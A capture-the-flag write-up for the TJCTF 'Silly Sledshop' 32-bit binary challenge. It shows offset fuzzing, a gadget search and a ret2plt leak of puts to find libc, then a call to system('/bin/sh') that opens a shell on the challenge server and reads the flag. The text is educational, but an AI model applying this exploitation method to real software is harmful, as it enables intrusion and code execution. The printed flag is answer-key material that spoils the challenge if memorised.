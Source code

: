 # Silly Sledshop
Binary

## Challenge 

Omkar really wants to experience Arctic dogsledding. Unfortunately, the [sledshop](443fc1af632011028063e52ee67e68447bf8764e29d0f24ecf388c2e69e57522_sledshop) ([source](ae4e16b219a11bbdadcd1a3bab7ecd63dd31221136f8b749f76ee9497e900b46_sledshop.c)) he has come across is being very uncooperative. How pitiful.

Lesson: nothing stops Omkar.

He will go sledding whenever and wherever he wants.

nc p1.tjctf.org 8010

## Solution

Fuzz for offset

	# pwn cyclic 100 | strace ./sledshop
	# pwn cyclic -l 0x61616175
	80

Hinted from the title, I thought we must return to the heap buffer and use NOP sleds.

There are no useful ROP gadgets

	$  ROPgadget --binary *_sledshop --only "jmp"
	Gadgets information
	============================================================
	0x080487ef : jmp eax

	Unique gadgets found: 1
	
	$  ROPgadget --binary *_sledshop --only "call"
	Gadgets information
	============================================================
	0x08048378 : call 0x8048466
	0x08048493 : call eax
	0x080484cd : call edx

The heap address is also randomised

	# pwn cyclic 300 > input.txt
	# gdb ./sledshop
	(gdb) run < input.txt 

	Program received signal SIGSEGV, Segmentation fault.
	0x61616175 in ?? ()
	(gdb) x/20x $sp 
	0xffffdd10:	0x61616176	0x61616177	0x61616178	0x61616179
	0xffffdd20:	0x6261617a	0x62616162	0x62616163	0x62616164
	0xffffdd30:	0x62616165	0x62616166	0x62616167	0x62616168
	0xffffdd40:	0x62616169	0x6261616a	0x6261616b	0x6261616c
	0xffffdd50:	0x6261616d	0x6261616e	0x6261616f	0x62616170
	(gdb) x/20x $sp-100
	0xffffdcac:	0xf7e56fbb	0xf7fc5d80	0x0000000a	0x00000011
	0xffffdcbc:	0x61616161	0x61616162	0x61616163	0x61616164
	0xffffdccc:	0x61616165	0x61616166	0x61616167	0x61616168
	0xffffdcdc:	0x61616169	0x6161616a	0x6161616b	0x6161616c
	0xffffdcec:	0x6161616d	0x6161616e	0x6161616f	0x61616170
	(gdb) quit


I thought of leaking address of LIBC. Bruteforcing will work since this is 32-bits, but I noticed we have access to puts() in PLT and GOT table. 

Here are some reading resources:
- https://tc.gtisc.gatech.edu/cs6265/2016/l/lab07-rop/README-tut.txt
- https://hackinhat.today/howto/rop-in-64/
- https://nandynarwhals.org/ret2libc-namedpipes/
- https://github.com/zst-ctf/encryptctf-2019-writeups/tree/master/Unsolved/pwn2
- https://forum.hackthebox.eu/discussion/161/bof-and-aslr
- https://stackoverflow.com/a/18272027

We can do ret2plt (Procedure Linkage Table) to get the address of puts(). Then, using offsets of libc, we can calculate the base address. Out goal is to call `system('/bin/sh'); exit()`.

### ret2plt attack

Find offsets for local machine

	# ldd --version
	ldd (Debian GLIBC 2.27-4) 2.27

	# readelf -s /lib32/libc.so.6 | grep system
	   254: 00127dd0   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
	   652: 0003d7e0    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
	  1510: 0003d7e0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

	# readelf -s /lib32/libc.so.6 | grep puts  
	212: 00067e30   474 FUNC    GLOBAL DEFAULT   13 _IO_puts@@GLIBC_2.0

	# readelf -s /lib32/libc.so.6 | grep exit  
	147: 00030a30    33 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0

	# strings -a -t x /lib32/libc.so.6 | grep /bin/sh
	 17c968 /bin/sh


Work locally, but doing on the server, does not work.

	# python exploit.py
	[+] Opening connection to p1.tjctf.org on port 8010: Done
	The following products are available:

	|  Saucer  | $1 |
	| Kicksled | $2 |
	| Airboard | $3 |
	| Toboggan | $4 |
	Which product would you like?
	Sorry, we are closed.

	('Leaked puts@libc:', '0xf7e73140')
	('Found libc base:', '0xf7dde310')

The libc base is not correct. We need to find libc version

Use https://libc.blukat.me/ to search

	Query: puts
	Offset: 140

This gives us [the result](https://libc.blukat.me/?q=puts%3A140&l=libc6-i386_2.23-0ubuntu11_amd64
)

	libc6-i386_2.23-0ubuntu10_amd64
	libc6-i386_2.23-0ubuntu11_amd64

The symbols are at as follows

	# https://libc.blukat.me/d/libc6-i386_2.23-0ubuntu11_amd64.symbols
	puts 0005f140
	system 0003a940
	exit 0002e7b0
	str_bin_sh 15902b

Final exploit

	# python exploit.py
	[+] Opening connection to p1.tjctf.org on port 8010: Done
	The following products are available:

	|  Saucer  | $1 |
	| Kicksled | $2 |
	| Airboard | $3 |
	| Toboggan | $4 |
	Which product would you like?
	Sorry, we are closed.

	('Leaked puts@libc:', '0xf7e73140')
	('Found libc base:', '0xf7e14000')
	@????C??
	The following products are available:
	|  Saucer  | $1 |
	| Kicksled | $2 |
	| Airboard | $3 |
	| Toboggan | $4 |
	Which product would you like?

	[*] Switching to interactive mode
	Sorry, we are closed.
	total 36
	dr-xr-xr-x 1 app  app  4096 Apr  5 21:30 .
	drwxr-xr-x 1 root root 4096 Apr  5 21:30 ..
	-r--r--r-- 1 app  app   220 Aug 31  2015 .bash_logout
	-r--r--r-- 1 app  app  3771 Aug 31  2015 .bashrc
	-r--r--r-- 1 app  app   655 May 16  2017 .profile
	-r-xr-xr-x 1 root root   36 Apr  5 21:29 flag.txt
	-r-xr-xr-x 1 root root 7656 Apr  5 21:29 sledshop
	-r-xr-xr-x 1 root root   70 Apr  5 21:29 wrapper
	$ cat flag.txt
	tjctf{5l3dd1n6_0mk4r_15_h4ppy_0mk4r}

## Flag

	tjctf{5l3dd1n6_0mk4r_15_h4ppy_0mk4r}
